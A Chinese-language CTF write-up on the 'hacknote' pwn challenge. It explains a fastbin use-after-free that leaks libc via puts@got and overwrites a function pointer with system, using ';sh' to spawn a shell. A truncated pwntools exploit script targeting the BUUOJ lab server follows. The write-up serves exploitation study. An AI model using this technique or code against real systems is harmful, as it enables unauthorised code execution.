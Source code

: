 gdb看一下堆块的布局更方便理解

![在这里插入图片描述](https://abc.p0lar1s.com/202111071722046.png)

delete()

![在这里插入图片描述](https://abc.p0lar1s.com/202111071722179.png)

printnote():打印时，参数为note块地址

![在这里插入图片描述](https://abc.p0lar1s.com/202111071723030.png)

思路：使用UAF泄露libc，计算system的地址，执行system(‘/bin/sh’)或获取shell

具体怎么泄露？先add chunk0，add chunk1，然后delete chunk0，chunk1，此时再申请add chunk2，大小为8. 那么chunk2的note块就是chunk1的note块，chunk2的content块就是chunk0的note块（fastbin的原则是LIFO）。此时向content2中写入0x804862B函数地址（保持不变，还是原来的）和puts@got地址

![image-20211107171138928](https://abc.p0lar1s.com/202111071719174.png)

如上图，system的参数是note块地址，即存放system函数地址的地址，这样肯定不行。但是使用连续执行多条命令的’ ; ‘，第一条执行错误会被忽略，然后执行下一条，因此可以成功将content位置覆盖成 ‘;sh\x00’或‘||sh’，同样的然后printnote(0)就能执行system(system_addr+‘;sh\x00’)得到shell了

```
from pwn import  *
from LibcSearcher import LibcSearcher
from sys import argv

def ret2libc(leak, func, path=''):
	if path == '':
		libc = LibcSearcher(func, leak)
		base = leak - libc.dump(func)
		system = base + libc.dump('system')
		binsh = base + libc.dump('str_bin_sh')
	else:
		libc = ELF(path)
		base = leak - libc.symbols[func]
		system = base + libc.symbols['system']
		binsh = base + libc.search('/bin/sh').next()

	return (system, binsh)

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'
binary = './hacknote'
context.binary = binary
elf = ELF(binary)
p = remote('node4.buuoj.cn', 26278) if (len(argv) == 2) and (argv[1] == 'r') else process(binary)
#path = '/lib/i386-linux-gnu/libc.so.6'
def dbg():
    gdb.attach(p)
    pause()

def addnote(size, content):
    sla("Your choice :", 1)
    sla("Note size :", size)
```